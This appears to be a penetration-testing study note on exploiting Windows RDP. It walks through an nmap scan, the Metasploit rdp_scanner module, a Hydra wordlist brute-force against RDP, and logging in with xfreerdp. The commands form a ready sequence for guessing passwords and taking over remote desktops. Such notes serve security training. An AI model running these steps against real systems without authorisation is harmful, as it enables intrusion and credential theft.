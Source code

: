 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# Exploiting RDP

- Remote Desktop Protocol
- Proprietary GUI remote access protocol owned by Microsoft
- Used to remotely connect and interact with a Windows system
- RDP uses TCP port ``3389`` by default
- RDP authentication requires a legitimate user account on the target system with password
- We can perform an RDP brute force attack to identify legitimate user credentials

## Demonstration

```bash
nmap -sV -p- $TRG
```

How to verify which port is running RDP?

- Verify by hand
- Use Metasploit

```bash
> use auxiliary/scanner/rdp/rdp_scanner
> set RHOSTS $TRG
> set RPORT <port>
```

Detection is done now time to find credentials with [[Hydra]]:

```bash
hydra -L common_users.txt -P unix_passwords.txt rdp://$TRG -s <port>
```

Now we can connect to the target using [[xfreerdp]]:

```bash
xfreerdp /u:<username> /p:<password> /v:$TRG:<port>
```
